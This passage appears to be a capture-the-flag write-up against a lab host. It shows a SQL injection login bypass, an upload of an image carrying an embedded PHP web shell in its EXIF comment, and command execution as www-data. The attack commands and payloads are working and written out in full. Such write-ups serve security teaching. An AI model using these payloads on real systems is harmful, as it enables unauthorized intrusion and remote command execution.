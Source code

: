 #### 2.1. Auth bypass via SQLi

1) Session cookie

```
# c=`http -f 10.10.10.185/login.php username="test' or 1=1-- -" password='' -phH | grep -oE 'PHPSESSID=.*;'`
```

2) Access to upload page

```
# http 10.10.10.185/upload.php Cookie="$c" | grep title
    <title>Magic Upload</title>
                <div class="title">Select Image to Upload</div>
```

3) Create test image for upload

```
# apt-get install imagemagick
# convert -size 1x1 xc:transparent /tmp/image.jpg
# http -f POST http://10.10.10.185/upload.php submit='Upload Image' image@/tmp/image.jpg -b | head -n 1
The file image.jpg has been uploaded.<!DOCTYPE HTML>
```

4) Comparing local image with uploaded image

```
# md5sum /tmp/image.jpg
daf67d3007482a76089547b78c0b4080  /tmp/image.jpg
# http http://10.10.10.185/images/uploads/image.jpg -b | md5sum
daf67d3007482a76089547b78c0b4080  -
```

5) Uploading file with double extension `.php.jpg`

```
# mv /tmp/image.jpg /tmp/image.php.jpg
# exiftool -Comment='<?=system($_GET['c']);?>' /tmp/image.php.jpg
```

#### 2.2. Command exec

```
# http -f POST http://10.10.10.185/upload.php submit='Upload Image' image@/tmp/image.php.jpg -b | head -n 1
The file image.php.jpg has been uploaded.<!DOCTYPE HTML>
# http http://10.10.10.185/images/uploads/image.php.jpg?c=id | strings
JFIF
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
